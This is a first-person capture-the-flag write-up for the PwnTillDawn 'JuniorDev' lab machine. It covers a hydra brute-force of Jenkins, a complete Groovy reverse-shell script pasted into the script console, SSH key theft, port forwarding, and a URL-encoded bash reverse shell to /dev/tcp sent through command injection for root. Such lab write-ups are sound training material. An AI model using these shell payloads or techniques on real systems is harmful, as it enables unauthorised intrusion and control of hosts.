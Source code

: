 # 10.150.150.38 ( JUNIORDEV )- PWNTILLDAWN WRITEUP

The following ports were found using rustscan

![](images/rustscan_results.png)
----

I served the ports to nmap and got found a http site

![](images/nmap_results.png)
---
It was a jekins login page.  
I tried the usual default login pairs but none worked.

![](images/jekins_failed_default.png)
---
After some digging I decided to use hydra to bruteforce it

![](images/hydra_command.png)
---
We got a hit!

![](images/hydra_success.png)
---
I inputed the details and we have a dashboard now.

![](images/jekins_dashboard.png)
---
Looked around and found a flag under the `people` tab

![](images/people.png)
---
Looked around a bit more and found out i could run scripts here. Found a walkthrough on how to get a shell using "Jekins Groovy Scirpt" here: `https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6`  

---
I pasted the code into the groovy scripts input box 

```
String host="ip";
int port="port";
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```
---
Then started a netcat listener and ran the script

![alt text](images/shell.png)
---

Found another Flag

![alt text](images/flag70.png)
---
Ran Linpeas but no dice, looked around and found another user `juniordev`, the user has a `.ssh` folder but i cannot `-ls -la` the folder due to permission issues

![](images/junirdevlsla.png)
---
But funny enough I can `cat` out it's presumed contents:

![](images/cat.png)
---
Copy paste and ssh into junior dev and voila we are juniordev

![alt text](images/jdevterminal.png)
---
Ran `Linpeas` again, no dice. Tried some suggested exploits, nothing. Looked a bit close and found something, a port that didn't show up during recon.

![](images/ports.png)
--
Looked into it a bit more with `pspy`

![image of pspy](images/pspy.png)
--
Used ssh local port forwarding to open the local page:  
`ssh -L 8080:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN`   
and open my local page, we have a page now.

![alt text](images/pypage.png)

It looks like a simple additiion page created in python.  
There might be a chance to do some command injection.  

---  
There is.

`%2Fbin%2Fbash+-i+>%26+%2Fdev%2Ftcp%2F10.66.67.138%2F4444+0>%261`

![](images/burp.png)
![](images/root.png)

Found a flag, alongside an image that could be a flag. Transferred it and took a look at the pic.  

---

Found a way to transfer it here `https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65`  

Got the image, opened it and the flag was there in plain text.  
  
  ---
DONE.  

